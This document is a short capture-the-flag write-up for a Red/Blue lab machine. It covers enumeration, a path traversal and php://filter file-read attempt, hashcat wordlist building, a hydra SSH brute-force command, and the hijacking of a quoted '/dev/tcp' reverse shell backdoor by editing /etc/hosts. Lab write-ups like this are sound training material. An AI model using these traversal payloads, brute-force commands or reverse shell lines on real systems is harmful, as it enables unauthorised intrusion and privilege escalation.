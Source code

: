 
## *Enumeration*
>	- Doing basic nmap on the machine to view the open ports, their services and the vulnerabilities.![](nmap-out.png)
>	- Searching for hidden files using `gobuster`.![](gobuster-out.png)
>	- Nothing useful found, viewing the website and searching manually.
>	- The parameter `?page=home.html` seems interesting, attempting to access `/etc/passwd` using curl with this parameter `?page=../../../../../../../../../etc/passwd`.
>	- Nothing is returned.
>	- Trying the `php://filter/` wrapper.![](curl-out.png)
>	- Trying to view the `.bash_history` for the red and blue users.![](red-blue-history.png)
>	- From the description of the room, Red uses a template for passwords, hence the `base64.rule` file.
>	- As the `passlist.txt` file gets removed at the end, try to view the `.reminder` file.![](reminder-file.png)
## *Gaining Access*
>	- Now recreating the process to create a password list using `hashcat`.![](hashcat-out.png)
>	- Now using the generated passwords list to brute force the SSH login using `hydra -l blue -P passlist.txt 10.10.122.203 ssh`.![](hydra-out.png)
>	- Accessing the machine using ssh.![](gained-access.png)
## *Enumeration v2*
>	- First flag can be found.![](flag-1.png)
>	- The implemented security controls keeps terminating the ssh connection, so have to rerun the `hydra` command to get the new password.
>	- After accessing the machine again, the next step is to privilege escalate.
>	- Transferring `LinEnum.sh` to the target using a simple `http` python server.![](transfer.png)
>	- No access to bash, from one of the messages sent on the machine, hinted to using `pspy`.
>	- Transferring `pspy`.![](transfer-pspy.png)
>	- Changing the permissions and running the file.![](pspy-out.png)
>	- The `bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &` seems like a backdoor for privileged users, but the `redrules.thm` indicates an entry in the `/etc/hosts` file.
>	- Checking the `/etc/hosts` file.![](hosts-file.png)
>	- Appending our own machine to the hosts file. ![](new-hosts.png)
>	- Using the backdoor to gain access.![](root-access.png)
>	- 